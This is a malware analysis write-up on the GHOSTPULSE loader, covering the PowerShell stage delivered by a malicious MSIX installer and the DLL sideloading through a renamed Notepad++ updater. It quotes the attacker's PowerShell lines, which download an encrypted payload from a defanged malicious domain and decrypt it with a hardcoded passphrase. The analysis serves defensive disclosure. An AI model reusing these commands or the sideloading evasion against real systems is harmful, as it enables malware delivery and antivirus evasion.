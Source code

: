 ## Malware Analysis

The GHOSTPULSE loader can be broken down into 3 stages (sometimes preceded by a PowerShell script) used to execute a final payload.

### Stage 0

We consider the PowerShell script dropped by the malicious MSIX installer to be the stage 0 payload. The PowerShell script is typically included in MSIX infection vectors, but not always in other GHOSTPULSE infection methods (MSI, EXE, ISO). In one sample, the PowerShell script downloads a GPG-encrypted file from `manojsinghnegi[.]com/2.tar.gpg`. 

Next, the PowerShell script decrypts the file using the command-line GPG utility using the following parameters:

- `putin` - the passphrase for the GPG file
- `--batch` - execute GPG in non-interactive mode
- `--yes` - answer “yes” to any prompts
- `--passphrase-fd 0` - read the passphrase from a file descriptor, 0 instructs GPG to use STDIN, which is putin
- `--decrypt` - decrypt a file
- `--output` - what to save the decrypted file as

```
# 1
$url = "https://manojsinghnegi[.]com/2.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath

# 1
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

The GPG utility is included in the malicious MSIX installer package.

The decrypted file is a tar archive containing an executable `VBoxSVC.exe` which is in reality a renamed signed `gup.exe` executable that is used to update Notepad++, which is vulnerable to sideloading, an encrypted file in one example `handoff.wav` and a mostly benign library `libcurl.dll` with one of its functions overwritten with malicious code. The PowerShell executes the binary `VBoxSVC.exe` that will side load from the current directory the malicious DLL `libcurl.dll`. By minimizing the on-disk footprint of encrypted malicious code, the threat actor is able to evade file-based AV and ML scanning.

![File metadata of VBoxSVC.bin](/assets/images/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks/image11.png)

### Stage 1

The first stage of GHOSTPULSE is embedded within a malicious DLL that undergoes side-loading through a benign executable. Execution of the corresponding code is triggered during the *DllEntryPoint* phase. 

The process is initiated by pinpointing the base address of the malicious DLL of `libcurl.dll`, achieved through parsing the *InLoadOrderModuleList* API. This list, residing in the Process Environment Block (PEB), systematically records information about loaded modules.
